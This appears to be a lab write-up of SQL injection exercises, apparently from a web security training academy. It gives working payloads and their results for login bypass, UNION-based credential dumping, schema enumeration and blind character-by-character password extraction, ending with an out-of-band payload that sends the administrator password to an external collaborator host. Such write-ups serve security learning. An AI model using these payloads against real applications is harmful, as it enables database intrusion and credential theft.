# SQL injection

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```

## Blind SQL injection vulnerabilities

### Blind SQL injection with conditional responses

Determine password length:
```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=6--;
```

Use Burp Suite Intruder (payload Brute-force `a-z0-9`) to get password one character at a time.
If the server response contains `Welcome back` then we know we guessed the character correctly.
```
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,3,1)='§a§'--;
...
```
Password is: `nqk8kg`

### Blind SQL injection with conditional errors

Determine password length:
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds with HTTP 500 then we know we guessed the character correctly.
This time I used attack type `Cluster bomb` and set 2 payloads right away - the first payload was a simple
number iterator and the second payload was Brute-force `a-z0-9`.
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```
Password is: `2req0w`

### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

### Blind SQL injection with time delays and information retrieval

Determine password length:
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sleep(5)+else+null+end+from+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds in more than 10 secs then we know guessed the character correctly.
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,§1§,1)='§a§')+then+pg_sleep(10)+else+null+end+from+users--;
```

Password is: `2req0w`
```
bu15v4
```

### Blind SQL injection with out-of-band interaction

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Blind SQL injection with out-of-band data exfiltration
```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ttqw3(...).burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--;
```
Burp Collaborator interaction: `gd61dj.ttqw3gbwcea26g1r6yl4nup1lsrif7.burpcollaborator.net.`
